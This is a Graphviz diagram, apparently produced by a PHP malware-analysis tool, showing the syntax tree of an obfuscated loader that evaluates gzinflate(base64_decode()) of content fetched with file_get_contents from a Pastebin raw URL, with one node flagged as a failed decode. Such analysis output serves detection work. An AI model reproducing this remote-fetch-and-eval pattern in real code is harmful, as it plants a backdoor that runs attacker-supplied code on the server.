 digraph ast {
node [shape=none];
219080590 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080590</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
219080590 -> 219080588 [weight=2];
219080591 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080591</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>file_get_contents</TD></TR></TABLE>>];
219080591 -> 219080587 [weight=2];
219080591 -> 219080589 [weight=2];
219080588 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080588</TD><TD border='0'><B>StringLiteral</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>https:pastebin.comrawW90fAFZj</TD></TR></TABLE>>];
219080589 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080589</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
219080589 -> 219080590 [weight=2];
219080586 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080586</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>base64_decode</TD></TR></TABLE>>];
219080587 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080587</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>file_get_contents</TD></TR></TABLE>>];
219080584 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080584</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>eval</TD></TR></TABLE>>];
219080585 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080585</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>gzinflate</TD></TR></TABLE>>];
219080600 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080600</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5'>Patterns</TD><TD border='0' cellpadding='5'>[27]</TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>eval</TD></TR></TABLE>>];
219080600 -> 219080584 [weight=2];
219080600 -> 219080598 [weight=2];
219080598 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080598</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
219080598 -> 219080599 [weight=2];
219080599 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080599</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
219080599 -> 219080597 [weight=2];
219080596 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080596</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
219080596 -> 219080594 [weight=2];
219109621 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' bgcolor='#FFCCCC' ><TR><TD border='0'>219109621</TD><TD border='0'><B>DecodeFailed</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>FuncIdUnknown</TD></TR></TABLE>>];
219080597 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080597</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>gzinflate</TD></TR></TABLE>>];
219080597 -> 219080585 [weight=2];
219080597 -> 219080595 [weight=2];
219080594 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080594</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>base64_decode</TD></TR></TABLE>>];
219080594 -> 219080586 [weight=2];
219080594 -> 219080592 [weight=2];
219080595 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080595</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
219080595 -> 219080596 [weight=2];
219080592 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080592</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
219080592 -> 219080593 [weight=2];
219080593 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>219080593</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
219080593 -> 219080591 [weight=2];
219080593 -> 219109621 [style=dotted,label=DynamicResolution];
}
